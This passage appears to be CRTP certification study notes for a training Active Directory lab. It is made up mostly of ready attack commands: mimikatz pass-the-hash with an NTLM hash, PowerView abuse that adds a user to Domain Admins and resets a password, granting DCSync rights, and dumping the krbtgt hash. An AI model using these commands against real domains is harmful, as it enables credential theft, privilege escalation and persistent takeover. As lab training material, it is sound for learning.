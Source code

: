 5. now apply the Pass the hash technique using mimikatz
```
sekurlsa::pth /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /domain:dcorp-dc /run:powershell.exe
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/3edc3112-a8ab-4740-9f59-15cdfdbc1b22)
6. now you can explore the share files of the domain controller
```
dir \\dcorp-dc\C$
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/3a4ec50e-3551-4563-884b-f6c29ea6498e)

# Persistence - ACLs
[Reference](https://crtp-certification.certs-study.com/domain-persistence/acls/adminsdholder)
###  Check the Domain Admins permission - PowerView as normal user
```
Get-DomainObjectACL -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SideToName $_SecurityIdentitifer);$_} | ?{$_.IdentityName -match "student1"}
```
### Abusing FullControll using PowerView
```
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```
### Abusing ResetPassword using PowerView
```
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123 -AsPlainText -Force") -Verbose
```

# Persistence - DCSync
you need to have Replication (DCSync) rights to perform the attack
### Add full-control rights
```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,DC=local’ -PrincipalSamAccountName <username> -Rights All -Verbose
```
### Add rights for DCsync
```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,Dc=local’ -PrincipalSamAccountName <username> -Rights DCSync -Verbose
```
### Execute DCSync and dump krbtgt
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```
